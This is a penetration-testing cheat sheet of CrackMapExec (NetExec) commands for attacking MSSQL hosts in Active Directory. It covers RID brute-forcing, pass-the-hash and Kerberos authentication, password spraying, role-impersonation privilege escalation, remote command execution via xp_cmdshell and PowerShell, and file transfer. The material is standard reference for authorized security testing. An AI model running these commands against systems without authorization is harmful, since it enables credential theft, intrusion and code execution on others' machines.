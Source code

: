 # cme (MSSQL)

% cme, crackmapexec, Active Directory, nxc, netexec, mssql

## Enumerate MSSQL reachable hosts
#assessment/AD #attack_type/Enumeration #port/1433 #protocol/mssql #access/Anonymous 

Enumerate network hosts that can be reached via MSSQL.

```bash
cme mssql <ip>
```

## Enumerate domain users by RID bruteforce
#assessment/AD #attack_type/Enumeration #port/1433 #protocol/mssql #access/Anonymous 

Enumerate domain users by bruteforcing the RID.

```bash
cme mssql <ip> -u <user> -p <password> --rid-brute
```

## MSSQL auth
#assessment/AD #attack_type/Authentication #port/1433 #protocol/mssql #access/MSSQL_user 

Authenticate via a MSSQL account on the remote target.

```bash
cme mssql <ip> -u <user> -p <password>
```

## Domain auth
#assessment/AD #attack_type/Authentication #port/1433 #protocol/mssql #access/Domain_user 

Authenticate via a domain account on the remote target.

```bash
cme mssql <ip> -u <user> -p <password> -d <domain>
```

## Domain auth with hash
#assessment/AD #attack_type/Authentication #port/1433 #protocol/mssql #access/Domain_user 

```bash
cme mssql <ip> -u <user> -H <hash> -d <domain>
```

## Local auth
#assessment/AD #attack_type/Authentication #port/1433 #protocol/mssql #access/Local_user

Authenticate via a local account on the remote target.

```bash
cme mssql <ip> -u <user> -p <password> --local-auth
```

## Local auth with hash
#assessment/AD #attack_type/Authentication #port/1433 #protocol/mssql #access/Local_user

Authenticate via a local account using the hash on the remote target.

```bash
cme mssql <ip> -u <user> -H <hash> --local-auth
```

## Kerberos auth
#assessment/AD #attack_type/Authentication #port/1433 #protocol/mssql #access/Domain_user 

Authenticate via Kerberos on the remote target.

```bash
cme mssql <ip> -u <user> -p <password> -k
```

## Kerberos TGT auth
#assessment/AD #attack_type/Authentication #port/1433 #protocol/mssql #access/Domain_user 

Authenticate via a Kerberos TGT on the remote target.

Previously import ticket : 
export KRB5CCNAME=ticket.ccache

```bash
cme mssql <ip> -u <user> -k --use-kcache
```

## Password spray (username=password)
#assessment/AD #attack_type/Bruteforce #port/1433 #protocol/mssql #access/Anonymous 

Password spray to find accounts with weak passwords.

```bash
cme mssql <ip> -u <users.list> -p <users.list> --no-bruteforce --continue-on-success
```

## List MSSQL role impersonation
#assessment/AD #attack_type/Privesc #port/1433 #protocol/mssql #access/Domain_user 

List MSSQL roles that can be impersonated on the remote target. 

```bash
cme mssql <ip> -u <user> -p <password> -M mssql_priv
```

## Impersonate MSSQL role
#assessment/AD #attack_type/Privesc #port/1433 #protocol/mssql #access/Domain_user 

Impersonate a MSSQL role on the remote target. 

```bash
cme mssql <ip> -u <user> -p <password> -M mssql_priv ACTION=privesc
```

## Rollback MSSQL role impersonation
#assessment/AD #attack_type/Privesc #port/1433 #protocol/mssql #access/Domain_user 

Rollback a MSSQL role impersonation on the remote target. 

```bash
cme mssql <ip> -u <user> -p <password> -M mssql_priv ACTION=rollback
```

## Execute MSSQL query
#assessment/AD #attack_type/Command_Execution #port/1433 #protocol/mssql #access/Domain_user 

```bash
cme mssql <ip> -u <user> -p <password> --local-auth -q 'SELECT name FROM master.dbo.sysdatabases;'
```

## Execute remote commands (xp_cmdshell)
#assessment/AD #attack_type/Command_Execution #port/1433 #protocol/mssql #access/Domain_user 

Execute remote commands through Windows xp_cmdshell.

⚠️ Requirement : Local admin privileges on the remote target (use --local-auth if the user is a local account)

```bash
cme mssql <ip> -u <user> -p <password> -x <command>
```

## Execute remote commands (PowerShell)
#assessment/AD #attack_type/Command_Execution #port/1433 #protocol/mssql #access/Domain_user 

Execute remote commands through Windows PowerShell.

⚠️ Requirement : Local admin privileges on the remote target (use --local-auth if the user is a local account)

```bash
cme mssql <ip> -u <user> -p <password> -X <command>
```

## Put file
#assessment/AD #attack_type/Other #port/1433 #protocol/mssql #access/Domain_user

Send a local file to the remote target.

```bash
cme mssql <ip> -u <user> -p <password> --put-file <local_file> <remote_path|\\Windows\\Temp\\target.txt>
```

## Get file
#assessment/AD #attack_type/Other #port/1433 #protocol/mssql #access/Domain_user

Get a local file from the remote target.

```bash
cme mssql <ip> -u <user> -p <password> --get-file <remote_path|\\Windows\\Temp\\target.txt> <local_file>
```

= ip: 192.168.1.0/24
= dc-ip: $DC_IP
= user: $USER
= password: $PASSWORD
= domain: $DOMAIN
